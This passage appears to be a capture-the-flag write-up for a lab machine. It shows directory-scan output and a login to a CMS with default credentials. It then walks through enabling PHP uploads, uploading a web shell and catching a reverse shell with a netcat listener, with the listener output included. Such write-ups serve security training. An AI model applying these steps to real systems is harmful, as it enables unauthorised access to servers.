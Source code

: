   ```
  ===============================================================
  /.htaccess            (Status: 403) [Size: 300]
  /.hta                 (Status: 403) [Size: 295]
  /.htpasswd            (Status: 403) [Size: 300]
  /application          (Status: 301) [Size: 333] [--> http://10.10.189.243:85/app/castle/application/]
  /concrete             (Status: 301) [Size: 330] [--> http://10.10.189.243:85/app/castle/concrete/]
  /index.php            (Status: 200) [Size: 12059]
  /packages             (Status: 301) [Size: 330] [--> http://10.10.189.243:85/app/castle/packages/]
  /robots.txt           (Status: 200) [Size: 532]
  /updates              (Status: 301) [Size: 329] [--> http://10.10.189.243:85/app/castle/updates/]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When you visit `http://10.10.189.243:85/app/castle/`, there will be a login prompt at the bottom of the app. I logged in with `admin:password` LOL.

---

## ⚙️ Shell Access

- Now go to System Settings -> Allowed File Types and add `php` and save it. After that upload a classic PHP shell and you will be given an URL of the shell. When you visit that URL, you will get a connection.

  ```
  URL to File

  http://10.10.189.243:85/app/castle/application/files/4217/4872/6364/shell.php
  
  Tracked URL
  
  http://10.10.189.243:85/app/castle/index.php/download_file/28/0
  
  Title
  
  shell.php
  ```

  ```
  nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.189.243] 53696
  Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
   17:20:05 up 15 min,  0 users,  load average: 0.04, 0.04, 0.05
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
  ```
  